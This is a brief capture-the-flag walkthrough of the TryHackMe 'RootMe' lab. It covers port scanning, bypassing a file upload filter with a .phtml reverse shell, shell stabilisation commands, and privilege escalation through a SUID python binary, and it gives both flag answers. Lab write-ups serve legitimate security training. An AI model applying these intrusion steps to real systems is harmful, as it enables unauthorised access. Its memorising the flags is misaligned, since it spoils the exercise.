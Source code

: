 # RootMe
- IP: 10.10.104.72

## Open Ports
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Port 80
- interesting directories
  - /uploads
  - /panel
    - /panel disallows php uploads
    - uploaded a reverse shell with .phtml extension

## Reverse shell
- Open NetCat
- Trigger reverse shell by navigating to /uploads/php-reverse-shell.phtml
- Stabilize shell
  - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
  - `export TERM=xterm`
  - `CTRL + Z`
  - `stty raw -echo; fg`

## Find first flag
- `find -name 'user.txt'`
  - /var/www/user.txt
- `cat /var/www/user.txt`
  - THM{y0u_g0t_a_sh3ll}

## Privilege Escalation
- Use linPeas (download from host python3 server)
  - `./linpeas.sh | tee linlog.txt`
  - Result: python vulnerable
- Check if python has SUID permission
  - `find / -perm /4000 2>/dev/null`
  - /usr/bin/python
- Goal: root/root.txt
  - `python -c 'print(open("/root/root.txt").read())'`
  - THM{pr1v1l3g3_3sc4l4t10n}

SOLVED
